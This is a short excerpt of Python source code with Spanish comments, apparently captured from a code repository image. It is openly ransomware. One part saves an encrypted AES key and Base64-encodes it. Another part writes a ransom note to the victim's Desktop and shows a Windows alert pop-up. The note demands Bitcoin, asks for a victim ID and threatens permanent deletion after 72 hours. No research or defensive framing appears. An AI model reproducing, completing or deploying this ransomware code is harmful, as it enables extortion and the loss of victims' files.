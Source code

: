 ```python

    # Guardar la clave cifrada en un archivo binario
    with open(ruta_clave, "wb") as archivo:
        archivo.write(aes_key_encrypted)

    print(f"Clave cifrada guardada en: {ruta_clave}")

    # Convertir a Base64 para incluirla en la nota de rescate
    return base64.b64encode(aes_key_encrypted).decode()

def mostrar_nota_rescate(aes_key_encrypted_b64):
    """Crea una nota de rescate en el escritorio y muestra un pop-up de advertencia."""

    escritorio = os.path.join(os.path.expanduser("~"), "Desktop")
    ruta_nota = os.path.join(escritorio, "README_IMPORTANTE.txt")

    nota = f"""===========================
    ¡TUS ARCHIVOS HAN SIDO CIFRADOS!
===========================

Todos tus documentos, imágenes, bases de datos y otros archivos importantes han sido cifrados con un algoritmo seguro.
No puedes acceder a ellos ni recuperarlos sin nuestra ayuda.

----------------------------
 ¿CÓMO RECUPERAR TUS ARCHIVOS?
----------------------------
1. Envíanos el pago en Bitcoin (BTC) a la siguiente dirección:
   [DIRECCIÓN BITCOIN]

2. Envía un correo a [EMAIL] con el comprobante de pago y tu ID de víctima:
   ID DE VÍCTIMA: [ID_UNICO]

3. Una vez confirmado el pago, recibirás la clave de descifrado.

----------------------------
 🔐 INFORMACIÓN SOBRE TU CLAVE 🔐
----------------------------
- Tu clave de descifrado está protegida y cifrada de manera segura.
- Aquí tienes la versión cifrada de tu clave (NO INTENTES MODIFICARLA):

  {aes_key_encrypted_b64}  

- También la encontrarás en el archivo: 'clave_cifrada.bin'.
- Si el pago no se realiza en 72 horas, los archivos serán eliminados permanentemente.

Atentamente, 
[Nombre del grupo de hackers]
"""

    with open(ruta_nota, "w") as archivo:
        archivo.write(nota)

    # Mostrar mensaje emergente con Windows MessageBox
    ctypes.windll.user32.MessageBoxW(
        0, "¡Tus archivos han sido cifrados! Lee el archivo README_IMPORTANTE.txt en tu escritorio.", 
        "ALERTA DE SEGURIDAD", 0x10 | 0x1
    )

    print(f"Nota de rescate creada en: {ruta_nota}")

# =======================
```
